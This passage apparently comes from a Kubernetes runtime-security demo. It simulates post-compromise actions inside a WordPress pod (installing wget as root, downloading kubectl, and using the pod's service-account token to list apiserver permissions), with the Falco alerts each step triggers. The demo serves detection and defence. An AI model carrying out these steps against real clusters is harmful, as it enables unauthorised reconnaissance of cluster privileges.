 ```bash
Unpacking wget (1.20.1-1.1) ...
Setting up libpcre2-8-0:amd64 (10.32-5) ...
Setting up wget (1.20.1-1.1) ...
Processing triggers for libc-bin (2.28-10) ...
```

```bash
{"output":"18:18:23.256697539: Error Package management process launched in container (user=root user_loginuid=-1 command=apt install wget container_id=854d2f6f3c68 container_name=k8s_wordpress_wordpress-66cd544579-cv29k_red-ns_84a78bd4-d090-4e67-b011-8a77e478eb75_0 image=paulborielabs/wordpress:gare) k8s.ns=red-ns k8s.pod=wordpress-66cd544579-cv29k container=854d2f6f3c68 k8s.ns=red-ns k8s.pod=wordpress-66cd544579-cv29k container=854d2f6f3c68 k8s.ns=red-ns k8s.pod=wordpress-66cd544579-cv29k container=854d2f6f3c68","priority":"Error","rule":"Launch Package Management Process in Container","time":"2021-09-14T18:18:23.256697539Z", "output_fields": {"container.id":"854d2f6f3c68","container.image.repository":"paulborielabs/wordpress","container.image.tag":"gare","container.name":"k8s_wordpress_wordpress-66cd544579-cv29k_red-ns_84a78bd4-d090-4e67-b011-8a77e478eb75_0","evt.time":1631643503256697539,"k8s.ns.name":"red-ns","k8s.pod.name":"wordpress-66cd544579-cv29k","proc.cmdline":"apt install wget","user.loginuid":-1,"user.name":"root"}}
```

## Use case 4 : access the k8s apiserver

1 - Download `kubectl` from the pod to query apiserver easier without `curl`. Kubectl will automatically query the apiserver with the container sercice account token at `/var/run/secrets/kubernetes.io/serviceaccount/token`. 

```bash
root@wordpress-66cd544579-cv29k:~# curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 44.7M  100 44.7M    0     0   107M      0 --:--:-- --:--:-- --:--:--  107M
```

```bash
{"output":"18:24:15.818010170: Error File below / or /root opened for writing (user=root user_loginuid=-1 command=curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.22.1/bin/linux/amd64/kubectl parent=bash file=/root/kubectl program=curl container_id=854d2f6f3c68 image=paulborielabs/wordpress) k8s.ns=red-ns k8s.pod=wordpress-66cd544579-cv29k container=854d2f6f3c68 k8s.ns=red-ns k8s.pod=wordpress-66cd544579-cv29k container=854d2f6f3c68 k8s.ns=red-ns k8s.pod=wordpress-66cd544579-cv29k container=854d2f6f3c68","priority":"Error","rule":"Write below root","time":"2021-09-14T18:24:15.818010170Z", "output_fields": {"container.id":"854d2f6f3c68","container.image.repository":"paulborielabs/wordpress","evt.time":1631643855818010170,"fd.name":"/root/kubectl","k8s.ns.name":"red-ns","k8s.pod.name":"wordpress-66cd544579-cv29k","proc.cmdline":"curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.22.1/bin/linux/amd64/kubectl","proc.name":"curl","proc.pname":"bash","user.loginuid":-1,"user.name":"root"}}
```
2 - query apiserver with `kubectl`

```bash
root@wordpress-66cd544579-cv29k:~# chmod +x kubectl 
root@wordpress-66cd544579-cv29k:~# ./kubectl auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
```
